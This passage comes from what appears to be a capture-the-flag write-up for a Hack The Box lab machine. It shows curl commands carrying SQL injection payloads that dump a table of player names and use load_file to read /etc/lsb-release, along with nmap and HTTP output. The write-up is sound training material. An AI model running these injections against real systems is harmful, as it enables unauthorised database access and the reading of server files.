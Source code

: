 And also the list of users:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(player) from players;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    ippsec,celesian,big0us,luska,tinyboy



#### Enter Flag

With the flag, I can enter it on `challenge.php`:

![](/img/image-20211119161426691.png)

Where only 80 was open on initial `nmap`, now 22 is open as well:



    oxdf@parrot$ nmap -p 22 10.10.11.128
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-19 16:14 EST
    Nmap scan report for 10.10.11.128
    Host is up (0.089s latency).

    PORT   STATE SERVICE
    22/tcp open  ssh

    Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds



Also interesting, that POST request to `challenge.php` returned a 302
redirect to `firewall.php`:



    HTTP/1.1 302 Found
    Server: nginx/1.18.0 (Ubuntu)
    Date: Fri, 19 Nov 2021 21:14:18 GMT
    Content-Type: text.md; charset=UTF-8
    Connection: close
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Location: /firewall.php
    Content-Length: 0



It's `firewall.php` that reports back that I have this access.

#### Read Files

SQL is configured with permissions to read files as well:



    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/etc/lsb-release');-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=20.04
    DISTRIB_CODENAME=focal
    DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
